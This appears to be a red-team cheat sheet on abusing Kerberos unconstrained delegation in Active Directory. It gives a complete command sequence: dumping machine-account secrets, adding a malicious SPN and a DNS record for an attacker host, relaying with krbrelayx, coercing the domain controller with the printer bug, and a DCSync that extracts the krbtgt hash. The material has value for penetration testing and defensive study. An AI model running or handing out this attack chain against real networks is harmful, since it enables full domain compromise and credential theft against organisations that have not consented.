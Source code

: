 # Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```




## "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html](https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)



### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
 # Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

 # Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```

2\. Add a malicious SPN for the owned computer account with unconstrained delegation:

```
 # Check (no modifications)
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -q DC01.megacorp.local
 # Adding servicePrincipalName that doesn't match full hostname or samAccountName will fail
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local
 # But modifying msDS-AdditionalDnsHostName will succeed
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local --additional
```

3\. Add a DNS record pointing to the attacker's host:

```
$ python dnstool.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action add DC01.megacorp.local
```

4\. Check that the record was added successfully (\~ 3 minutes):

```
$ nslookup evil.megacorp.local <DC01_IP>
Server:		192.168.1.11
Address:	192.168.1.11#53

Name:	evil.megacorp.local
Address: 10.10.13.37
```

5\. Start `krbrelayx.py` providing AES key of the owned computer account or its plain password in hex with salt:

```
 # In case secretsdump.py was used remotely
$ sudo python krbrelayx.py -aesKey 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
 # In case secretsdump.py was used locally
$ sudo python krbrelayx.py --krbhexpass <PLAIN_PASSWORD_HEX> --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local
```

6\. Coerce the authentication to attacker's host from DC01 by triggering printer bug:

```
$ python printerbug.py megacorp.local/'SRV01$'@DC01.megacorp.local -hashes :fc525c9683e8fe067095ba2ddc971889 evil.megacorp.local
```

7\. Export extracted TGT and perform DCSync to get krbtgt hash (or any other privileged account hash):

```
$ export KRB5CCNAME=`pwd`/'DC01$@MEGACORP.LOCAL_krbtgt@MEGACORP.LOCAL.ccache'
$ secretsdump.py DC01.megacorp.local -dc-ip <DC01_IP> -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

8\. Cleanup. Delete SPN and DNS record:

```
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -r DC01.megacorp.local --additional
$ python dnstool.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action remove DC01.megacorp.local
 # Check if the SPN was deleted successfully
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u 'SRV01$' --hash fc525c9683e8fe067095ba2ddc971889 -m computers --attrs servicePrincipalName | grep SRV01
```

Other scenarios:

* In [this](https://exploit.ph/user-constrained-delegation.html) blogpost it is described how to perform the attack by abusing a **service** (user) account with unconstrained delegation enabled.
* In [this](https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/) blogpost it is described how to perform the attack from Windows by extracting TGT with Inveigh.
